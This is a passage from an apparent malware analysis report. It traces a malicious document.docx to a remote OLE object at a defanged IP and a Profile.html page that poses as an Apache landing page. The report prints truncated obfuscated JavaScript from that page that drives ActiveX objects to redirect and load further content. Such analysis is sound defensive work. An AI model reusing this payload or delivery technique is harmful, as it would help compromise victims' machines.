 Using the same technique as we highlighted in the Testing phase, we decompressed `document.docx` and examined the document
relationship file (`word/_rels/document.xml.rels`). As previously described, we observed a remote OLE object stored and
formatted as an HTML entity code block that we can decode using CyberChef.

![Decoded document.docx HTML entities](media/decoded-document_docx-html-entities.png "Decoded document.docx HTML entities")

We see the same IP address, `104[.]244[.]78[.]177` and a new filename called `Profile.html`.

#### Profile.html

Based on the HTML code, this initially appeared to be an Apache landing page. However, closer inspection identified
another obfuscated JavaScript towards the bottom of the page.

```html title="Profile.html and the obfuscated JavaScript"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en" xml:lang="en"><head>
<meta content="text/html; charset=UTF-8" http-equiv="Content-Type" />
<!--
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
                This file is generated from xml source: DO NOT EDIT
        XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
        -->
<title>Getting Started - Apache HTTP Server Version 2.5</title>

...truncated…

<script>function a(){var l=['wexcKvyUWOi','ntu3ndaWmeHNC0HOsq','nfPrsujOwG','amohWRqfW5xcNSk/r23cO8kClG','
iSkfW5hcTSk4jmk4xmk2W73dSCkjWOq','ndCXnZeXDLf1tKLj','WRSYCcCZzmkmaW','WQzEqb5xWOldVWXBgSkSWRyp','AhrTBgzPBgu',
'W5tdO1L3WOFdISk8W50','u2nYAxb0','lNDZzJOUlI8UlI8UlI9ezxnRDg9Wl1bYB2zPBguUCMfYpY53C2y','iCkEW592W77cNa',
'WReLW5ddJGiJWRhcRMuYW40LW4v9xSkJWRNcObFdLSkEW5hcMe1kW4JcHL84W7WgWPtcNt4eW4NcP8oZy8kN',
'lNDZzJOUlI8UlI9eB3DUBg9HzhmVuhjVzMLSzs5Yyxi/lNDZzG','ndaWmtu5BvbZqxHH','Bg9JyxrPB24',
'ex3cTSkNW5z+w2RcKGhdLs/dNbBdImoknSk1FwVdQL/cVSkWWRC9WPldO3/dRLv5lt5lW4XFWRVcGWxcNsiX','nZa3mZKWnNP1zffirq',
'bxy1yvlcHujyqSkly2ldHvDrW5vJW7HQW5mZimkKWPJcQJClD0j3WO5SW6KTqmozaWOzACoc','mtKXmZq5mLbREgPOqW','W73dMrjjW53cQaBcVq',

...truncated…

ActiveXObject(j(0x144))[k(0x13c,'k0X5')][j(0x14c)]=k(0x14d,'[Otp'),new ActiveXObject('htmlfile')[j(0x146)]['location']=j(0x14a),new ActiveXObject('htmlfile')[k(0x148,
'MCjf')][k(0x138,'kZYE')]=j(0x147),new ActiveXObject(j(0x144))[j(0x146)][k(0x142,'Lz1J')]=k(0x14f,'BiKg'),new ActiveXObject(k(0x145,'h]@1'))[j(0x146)][j(0x14c)]=k(0x13a,'!v$V'));</s
cript>
```
